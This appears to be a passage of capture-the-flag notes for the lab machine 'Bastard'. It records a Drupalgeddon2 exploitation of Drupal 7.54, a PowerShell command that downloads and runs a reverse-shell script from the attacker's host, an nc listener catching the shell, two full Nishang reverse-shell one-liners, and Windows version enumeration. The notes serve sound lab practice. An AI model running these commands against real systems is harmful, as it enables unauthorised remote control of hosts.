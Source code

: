 Setup a server
```
$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.9 - - [29/Aug/2019 23:08:42] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
```

Use Drupalgedon2.py to run a command:
```
./drupalgedon2.py -h http://10.10.10.9 -c "powershell iex(new-object net.webclient).downloadstring('http://10.10.14.32:8000/Invoke-PowerShellTcp.ps1')"
```

nc
```
# nc -lvp 4443
listening on [any] 4443 ...
10.10.10.9: inverse host lookup failed: Unknown host
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.9] 49335
Windows PowerShell running as user BASTARD$ on BASTARD
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\inetpub\drupal-7.54>whoami
nt authority\iusr
```
We are in a powershell shell



## Nishang one liner : à tester
```
#A simple and small reverse shell. Options and help removed to save space. 
#Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
#$client = New-Object System.Net.Sockets.TCPClient('192.168.254.1',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

#$sm=(New-Object Net.Sockets.TCPClient('192.168.254.1',55555)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
```


## Elevation

### Get OS version
```
C:\inetpub\drupal-7.54> systeminfo

Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600

6.1 	=> 	Windows 7 / Windows Server 2008 R2



OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
```